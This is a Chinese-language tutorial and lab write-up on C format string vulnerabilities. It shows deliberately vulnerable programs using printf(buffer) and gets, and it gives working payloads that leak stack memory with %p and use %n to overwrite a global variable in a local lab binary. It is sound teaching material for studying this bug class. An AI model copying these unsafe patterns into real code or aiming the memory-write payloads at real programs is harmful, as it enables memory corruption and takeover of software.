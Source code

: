 # Format String Vulnerability 1



​	格式化字符串漏洞是由于不良的编程实践导致的。如果一个程序，把用户输入作为参数没有做严格的校验就使用如 `printf` 、`sprintf`、`fprintf` 这类的函数进行格式化输出。那么攻击者可以通过利用漏洞实现任意内存读写。



下面是一段示例代码：

```C
int main(int argc, char** argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf(buffer);
    return 0;
}
```



`printf` 函数接收多个参数，它本身不能识别接收的参数个数，而是需要程序员通过使用格式化占位符，来指定要接收的参数个数以及参数的类型。



了解printf是如何读取多个参数的：

[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).

了解格式化占位符：

[this](http://www.cplusplus.com/reference/cstdio/printf/).



对于上面的示例代码，假设你给程序一个正常的输入，如输入你的用户名，像这样： `./string0 Rohit`

你会得到和你输入一样的字符串作为输出。但攻击者并不会按照你程序设想的来。假设你喂给程序的输入是 一个 `%x` （因为攻击者知道`printf`函数接收的第一个参数是格式化字符串，所以这没有什么奇怪的。）一个畸形的格式化字符串也许能泄露出栈上面的内容。



:astonished: 攻击者可以获取到 Stack 中的内容。​



### 获取栈上面的内容



尝试这样执行：

```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$
```
瞧，发生了什么？



`%p` 是以十六进制格式打印内存中的内容的格式化占位符。攻击者戏弄 **printf** ，通过喂给程序格式化占位符，而不是一般的字符串，让它打印出内存中的内容。这就是格式化字符串漏洞。



### 除此之外还能做什么？



不仅仅是泄露内存数据。这类型的漏洞可以允许攻击者写任意内存。要想理解写任意内存的实现原理，我们需要先弄清楚一个特殊的格式化占位符：`%n` 。这个占位符可以让 **printf** 根据后面跟的一个参数，写任意内存地址。

e.g

```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```


简单讲，`%n` 把前面字符串中字符的个数写到变量`i`的地址内存中。





现在我们明确了两样东西：

* 复用格式化占位符作为 printf() 的传入参数来获取内存中的数据.
* 修改Stack上任意内存空间(变量的值).



### 来看一个实际的利用 :metal:




利用格式化字符串很重要的一点在于确定offset。首先我们需要确定大概需要跳过多少个4byte大小（x86）的内存，然后就可以触碰到buffer。为了确定这个offset，我首先输入 `AAAA` 作为buffer的起始，使用下面的payload进行测试：

​	``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``

得到的程序输出如下：

​	`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`



留意这里，`0x41414141` 是在程序输出中的倒数第三个。对应就是我们输入的AAAA。这就意味着我们越过9个 `%p`后，也就是第10个的时候就是我们的buffer的位置。你需要自己在自己的环境中进行测试，你可能会是跟我这里不一样的offset。

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```


​	现在，我要来证明如何使用我们已经学到的知识来改变程序的控制流。请看上面这段代码，利用前面讲的方法通过利用格式化字符串漏洞来确定到buffer的offset。进一步确定buffer的address。

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`

​	Output:

`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.

​	在我这个环境中这里同样是在 第10个位置上。:metal:

接下来思考一下：

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`

​	上面的命令会把格式化字符串的长度 `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` 写入到第 `10th` 个参数所指向的内存地址中. 在这里，由于第10个参数对应的内容是 0x41414141 所以它会尝试把 32 写入`0x41414141` 这个地址 。 由于这个地址（0x41414141）本身应该是 read-only memory, 所以你会得到一个 `Segmentation Fault`. 

​	那么对于这种情况，假如说我们喂给程序的是一个有意义的值，而不是 `0x41414141` 那又会怎样呢？如此一来，使用 `%n` 就可以把值写到我们提供的内存地址了。



​	对于上面这个案例，我们可以通过静态的方式去拿变量 `myvar` 的地址。

`objdump -t ./string1 | grep myvar`</br>
`0804a028 g     O .bss    00000004              myvar`

​	第一列所对应的就是`myvar`变量的地址。

​	接着我们要构造exploit实现修改程序中变量的值来实现修改程序后面的控制流结构。

`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``

​	得到如下的输出：

``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

​	:cool: 我们成功地利用了这个漏洞。



#### 学到了什么：



​	利用格式化字符串漏洞，我们可以exploit程序，实现修改任意地址内存中的值。


## Lab - string1 WP

编译string1，关闭PIE

```
gcc -m32 -g -fno-stack-protector -no-pie -fno-pie string1.c -o string1
```

然后，通过格式化字符串payload定位buff对应在第几个参数位置：

```
echo -e `python2 -c 'print "AAAA %p %p %p %p %p %p %p %p"'` | ./string1
```

<img width="751" height="48" alt="image" src="https://github.com/user-attachments/assets/5d52769a-7826-474c-beab-bb777b34efc2" />

在第7个参数的位置。


通过调试拿到myvar变量在内存中的地址：

<img width="739" height="661" alt="image" src="https://github.com/user-attachments/assets/d4d73178-5569-4f2d-99c7-5aeef7f16148" />


```
echo -e `python2 -c 'print b"\x18\xc0\x04\x08" + " %p %p %p %p %p %p %n"'`  | ./string1
```


<img width="780" height="45" alt="image" src="https://github.com/user-attachments/assets/2af309c0-8694-4d73-ac00-e6a8735d36fb" />


